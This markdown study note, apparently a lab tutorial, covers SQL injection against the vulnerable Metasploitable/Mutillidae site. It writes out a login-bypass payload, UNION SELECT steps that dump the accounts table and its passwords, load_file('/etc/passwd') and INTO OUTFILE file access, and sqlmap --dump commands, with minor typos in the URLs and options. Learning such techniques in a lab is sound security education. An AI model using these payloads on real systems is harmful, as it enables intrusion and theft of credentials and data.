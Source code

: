 # SQL injection
-   To prevent SQL injection, just use parameterized statements, separate data from SQL code
-   Everything will be tested with Metasploitable Linux
-   connect to the Metasploitable Linux SQL Database from Kali Linux (no hacking, only connecting): `mysql -u root -h ip.address.of.MetasploitableLinux`.
-   to discover SQL injection vulnerability: 
    -   try to break page / test text boxes / change URL parameters

## Test text boxes
-   example of bypassing login: 
    -   password field: `xxx' or 1=1 #`
    -   `xxx`: is something random, doesn't matter
    -   `'`: is used to finish the current SQL statement for password, example: `select * from account where user='$USER' and password='$PASSWORD'`
    -   `or 1=1`: inserted true statement
    -   `#`: to finish the SQL statement right after the true statement and everything after is comment (otherwise there would be an error for `'` at the end)  

## Change URL parameters
-   URL parameters on the form (`url?something=something`)
-   example of injection to URL `url/index.php?page=user-infp.php?username=admin&password=123456&...`
    -   change similarly to text box: `url/index.php?page=user-infp.php?username=admin' or 1=1#&password=123456&...` and paste it to the browser url. Sometimes there might be a problem with using `#`, then use URL encoding (https://www.urlencoder.org/): `%23`
    -   `1=1` can be changed for anything like:
        1)  determine how many columns are being selected from the table in current SQL statement by trying maximum of the latest order by column example: `order by 5`. In example on Metasploitable Linux website mutillidae/index.php?page=login.php was found that 5 are selected.
        2)  now use union select with as many columns as discovered in previous SQL statement: `union select 1,database(),user(),version(),5`, this will show current db, user to access the db and version of the db.
        3)  get all the tables stored inside the db by selecting from information schema (this is default table in SQL which includes information about all tables in SQL): `union select 1,table_name,null,null,5 from information_schema.tables`. If many tables are shown add where for the db discovered in 2nd point: `where table_schema = 'db_name'`
        4)   get column names from specific table (accounts): `union select 1,column_name,null,null,5 from information_schema.columns where table_name = 'accounts'`
        5)  get all values from specific table (accounts): `union select 1,username,password,is_admin,5 from accounts`

        +  or just read files from server `union select null, load_file('/etc/passwd'),null,null,null`
        +  also file upload is possible `union select null, 'example example',null,null,null into outfile /some/path/on/server/example.txt`

## Discovering SQL injection with SQLmap
-   huge tool which helps to find and exploit SQL injections. Small example on manual attack showed above:
    -   tool automatically looks through all parameters and finds anything that can be injectable:
        ```bash
        sqlmap -u "http://192.168.72.130/mutillidae/index.php?page=login.php?page=user-info.php&username=admin&password=123456&user-info-php-submit-button=View+Account+Details"
        ```
    -   get all databases:
        ```bash
        sqlmap -u "http://192.168.72.130/mutillidae/index.php?page=login.php?page=user-info.php&username=admin&password=123456&user-info-php-submit-button=View+Account+Details --dbs"
        ```
    -   to get current user, just change the `--dbs` to `--current-user`. Same for current db use `--current-user`. 
    -   to get all the tables use params use `--tables -D db_name`, to get columns use `--columns -T accounts -D db_name`
    -   to dump all the data use params `-T accounts -D db_name --dump`